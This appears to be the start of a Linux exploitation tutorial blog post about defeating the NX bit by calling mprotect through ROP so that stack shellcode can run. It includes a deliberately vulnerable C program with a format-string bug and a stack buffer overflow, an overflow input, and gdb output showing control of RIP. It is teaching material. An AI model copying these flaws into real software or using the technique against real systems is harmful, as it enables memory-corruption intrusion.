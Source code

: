 ```yaml
---
layout: post
title: "Marking The Stack As Executable"
date: 2021-1-11
---
```


The [No-execute (NX) bit](https://en.wikipedia.org/wiki/NX_bit) allows operating systems to mark a page as "executable" or "non-executable." A common method of bypassing this technique involves using [return-oriented programming (ROP)](https://nihaal-prasad.github.io/2020/10/14/return-oriented-programming-tutorial.html); however, there is another method that works as well. This method of defeating NX involves modifying the stack so that it is executable.

The Linux function [`mprotect(void *addr, size_t len, int prot)`](https://man7.org/linux/man-pages/man2/mprotect.2.html) can be used to modify the access permissions of any page of memory. If an attacker can ROP to this function, he/she can use it to mark the stack as executable. Then he/she can jump to their shellcode on the stack, and because the stack has been marked as executable, the shellcode will execute without any problems.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    char buf[100];
    printf("Format string vuln: ");
    fgets(buf, 100, stdin);
    printf(buf);
    printf("Stack overflow vuln: ");
    fgets(buf, 1000, stdin);
    return 0;
}
```

The code shown above has two vulnerabilities:
1. An information leak due to a format string vulnerability.
2. A stack buffer overflow.

An attacker can take control over `RIP` after writing 120 bytes into the second call to `fgets()`.
```sh
$ python3 -c "import sys; sys.stdout.buffer.write(b'\n' + b'A'*120 + b'BBBBBBBB')" > input
$ gdb test
GNU gdb (Debian 10.1-1.4) 10.1
Copyright (C) 2020 Free Software Foundation, Inc.

[...]

gef➤  r < input
Starting program: /home/nihaal/Desktop/test/test < input

[...]

gef➤  info frame
Stack level 0, frame at 0x7fffffffe018:
 rip = 0x5555555551bd in main; saved rip = 0x4242424242424242
 Arglist at 0x4141414141414141, args:
 Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffe020
 Saved registers:
  rip at 0x7fffffffe018
```
